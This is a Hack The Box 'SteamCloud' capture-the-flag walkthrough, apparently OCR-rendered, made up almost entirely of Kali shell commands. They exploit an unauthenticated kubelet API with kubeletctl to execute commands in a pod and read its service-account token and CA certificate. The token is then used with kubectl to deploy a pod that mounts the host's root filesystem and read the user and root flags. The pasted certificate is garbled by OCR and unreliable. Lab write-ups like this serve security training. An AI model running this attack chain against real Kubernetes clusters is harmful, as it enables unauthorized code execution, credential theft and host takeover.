 HTB - SteamCloud
```bash - kali
curl https://$TARGET:10250/pods -k
```
```bash - kali
git clone https://github.com/cyberark/kubeletctl
```
```bash - kali
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.7/kubeletctl_linux_amd64
```
```bash - kali
chmod a+x ./kubeletctl_linux_amd64
```
```bash - kali
sudo mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
```
```bash - kali
kubeletctl --server $TARGET pods
```
```bash - kali
kubeletctl --server $TARGET scan rce
```
```bash - kali
kubeletctl --server $TARGET exec "id" -p nginx -c nginx
```
```bash - kali
kubeletctl --server $TARGET exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx
```
`eyJhbGciOiJSUzI1Ni.....`
```bash - kali
kubeletctl --server $TARGET exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx
```
```
..
—-—-—---BEGIN CERTIFICATE-----
MIIDBjCCAe6gAWIBAgIBATANBgkqhkiGO9w@BAQs FADAVMRMWEQYDVQQDEwptawsp a3ViZUNBMB4XDTIXMTEYOTEYMTY1NVOXDTMXMTEYODEYMTY1NVowFTETMBEGA1UE AXMKbWluawWt1YmVDQTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAOOa YRSqoSUfHaMBK44xXLLUFXNELhJrC/900R2Gpt8DuBNIWSve+mgNxbOLTofhgQoM HLPTTxnfZ5VaavDH2GHiFrtfUWD/g7HA8aXn7cOCNxdf1k7MOX0QjPRB3Ug2cID7 degATtnjZaXTkoVUyUp5Tq3vmwhVkPXDtROc7QaTR/AUeR10x09+mPo3ry6S2xqG VeeRhpK6Ma3FpJB30oN0OKz5e6areAOpBP5cVFd68/Np3aecCLrxf2Qdz/d9Bpisll hnRBjBwFDdzQVeIJRKhSAhczDbKP64bNi2K1ZU95k5YkodSgXyZmmk fgYORyg990 1pRrbLrfNk6DE5S9VSUCAWEAAaNhMF8wDgYDVROPAQH/BAQDAgKKMBOGA1Ud JQQW MBQGCCsGAQUFBWMCBggrBgEFBQCcDATAPBENVHRMBAf8EBTADAQH/MBOGA1UdDgQW BBSpRKCEKbVtRsYEGRwyaVeonBdMCjANBgkqhkiGO9w@BAQs FAAOCAQEAQjqg5pUm 1t1jIeLKYT1E6C5XxykWOX8mOWzmok17rSMA2GYISqdbRcw72aocvdGI2Z78X/HyO e/ UETZ RS AVE & R {ora Akl b B £ 7 p AT o & VA L\VEEE EVES T B ba ] : 131 B VS 9MGEdIpuHqZ15HHYeZ83SQWc jOHO1ZGpSriHbfxAIlgRvtYBfnciP6Wgcy+YuU/D XpCIgRAWOIUgK74EdYNZAkrWuSOAQUa8KiKuhklyZv383ib3FvAo4JrBX1Sjw/RO JWSyodQkEF60Xh7yd21RFhtyE8J+h1HeTz4FpDJI7MuvfXfoXxSDQOYNQuU@9iFiMz kf2eZIBNMpOTFg==
—————END CERTIFICATE----—-
```
```bash - kali
export token="eyJhbGciOiJSUzI1Ni....."
```
Save the ca.crt output to a file named "ca.crt"
```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 get pods
```
```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 auth can-i --list
```
---
f.yaml
```yaml - kali
apiVersion: v1
kind: Pod
metadata:
  name: nginxt
  namespace: default
spec:
  containers:
  - name: nginxt
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```
---
```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 apply -f f.yaml
```
```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 get pods
```
```bash - kali
kubeletctl --server $TARGET exec "cat /root/home/user/user.txt" -p nginxt -c nginxt
```
==f1561ae2cc46d3da137f8fc0a9e6ed9f==
```bash - kali
kubeletctl --server $TARGET exec "cat /root/root/root.txt" -p nginxt -c nginxt
```
==fe4607da38330e4c2281fe512417640b==
